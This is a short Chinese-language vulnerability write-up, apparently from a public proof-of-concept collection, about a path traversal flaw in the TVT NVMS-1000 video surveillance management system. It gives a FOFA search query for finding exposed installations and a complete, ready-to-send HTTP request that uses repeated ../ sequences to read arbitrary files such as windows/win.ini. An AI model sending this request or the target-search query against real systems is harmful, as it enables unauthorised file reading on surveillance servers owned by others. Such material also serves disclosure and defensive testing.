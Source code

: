 # TVT数码科技 NVMS-1000 路径遍历漏洞

## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件。

## 漏洞影响

> TVT NVMS-1000

## FOFA

> app="TVT-NVMS-1000"

## 漏洞复现

登录页面如下

![tvt-1](resource/TVT数码科技-NVMS-1000/tvt-1.png)

发送请求包读取文件

```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![tvt-2](resource/TVT数码科技-NVMS-1000/tvt-2.png)